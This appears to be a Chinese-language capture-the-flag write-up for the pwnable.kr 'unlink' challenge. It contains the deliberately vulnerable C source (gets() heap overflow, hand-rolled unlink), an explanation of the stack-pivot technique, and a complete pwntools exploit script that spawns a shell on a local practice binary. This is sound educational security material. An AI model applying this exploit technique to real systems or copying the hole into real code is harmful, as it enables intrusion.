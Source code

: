 ```yaml
---
title: pwnable.kr之unlink
date: 2017-09-28 16:07:43
tags: 
 - pwnable.kr
 - heap
 - pwn
 - unlink
---
```


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
    struct tagOBJ* fd;
    struct tagOBJ* bk;
    char buf[8];
}OBJ;

void shell(){
    system("/bin/sh");
}

void unlink(OBJ* P){
    OBJ* BK;
    OBJ* FD;
    BK=P->bk;
    FD=P->fd;
    FD->bk=BK;
    BK->fd=FD;
}
int main(int argc, char* argv[]){
    malloc(1024);
    OBJ* A = (OBJ*)malloc(sizeof(OBJ));
    OBJ* B = (OBJ*)malloc(sizeof(OBJ));
    OBJ* C = (OBJ*)malloc(sizeof(OBJ));

    // double linked list: A <-> B <-> C
    A->fd = B;
    B->bk = A;
    B->fd = C;
    C->bk = B;

    printf("here is stack address leak: %p\n", &A);
    printf("here is heap address leak: %p\n", A);
    printf("now that you have leaks, get shell!\n");
    // heap overflow!
    gets(A->buf);

    // exploit this unlink!
    unlink(B);
    return 0;
}
```

这道题考查基础的堆溢出unlink利用, 其中实现的unlink函数是对早期ptmalloc的模拟. 程序给了堆栈的leak和获取shell的位置, 只需修改程序控制流即可.

这里定义的OBJ结构体指向chunk体部分, 不包含chunk头部分, 因此P->fd = *(P), P->bk = *(P + 4).

unlink主要的漏洞点发生在

    FD->bk=BK;
    BK->fd=FD;
两句,

FD->bk = P -> fd -> bk = BK = P -> bk, 亦即

```
*(*(P) + 4)=*(P+4)
```

我们假设内存布局为

A1|A2|A3|A4|B1|B2|B3|B4

则在unlink B的时候P->fd = A; P -> bk = B,

那么就有

```
*(B3 + 4) = B4;
*(B4) = B3;
```

可以看到, 这种unlink漏洞有两次任意内存写机会, 但是这个机会不是很好用, 因为两次写是有一定关联的. 最直观的想法就是把main函数ret地址写到B4, shell地址写到B3, 但是这样一来会向代码段非法写入. 接下来的一个想法是把一段足够短的跳板或者二次跳板程序写入到A3A4...(这是我们最早可控的内存), 然后通过控制ret跳转到堆上, 遗憾的是程序开启了数据执行保护, 堆上无法执行程序.

```
@hyrathon-vm ➜ Desktop  checksec unlink
[*] '/mnt/hgfs/Desktop/unlink'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

做到这里有一点卡壳了, 很羞耻的去网上找了一下writeup, 发现汇编中有这样一段栈很有趣:

![](unlink/1.png)

在退出main函数之前, 有一个mov ecx, [ebp-4]和lea esp, [ecx-4], 随后esp被恢复到eip. 既然没有办法直接控制ret, 可以通过控制ebp-4而控制ecx, 进而控制esp, eip

```
eip = esp
esp = ecx - 4
ecx = [ebp - 4]
```

我们想让eip=shell地址, 那么就应该控制ecx = shell地址+4, 即[ebp - 4] = shell地址 + 4, 而ebp - 4的地址可以通过stack_leak计算得来(经过实际验证为stack_leak + 0x10). shell地址则应该写在一个我们能控制的位置(堆上A3), 那么payload在堆上的布局就应该是

A1|A2|shell地址|padding|padding|padding|heap_leak + 0xc|stack_leak + 0x10

heap_leak + 0xc处0xc来自于shellcode地址本身与heap_leak相隔8, 加上ecx - 4时需要减4, 因此这里再加4.

```python
from pwn import *

p = process("./unlink")

p.recvuntil("here is stack address leak: ")
stack_address = int(p.recvline(), 16)
p.recvuntil("here is heap address leak: ")
heap_address = int(p.recvline(), 16)
p.recvuntil("now that you have leaks, get shell!")
print "stack_address:", hex(stack_address), "heap_address", hex(heap_address)

payload = p32(0x080484EB) + 'a'*12 + p32(heap_address + 0xc) + p32(stack_address + 0x10)

#gdb.attach(p)
p.sendline(payload)

p.interactive()
```


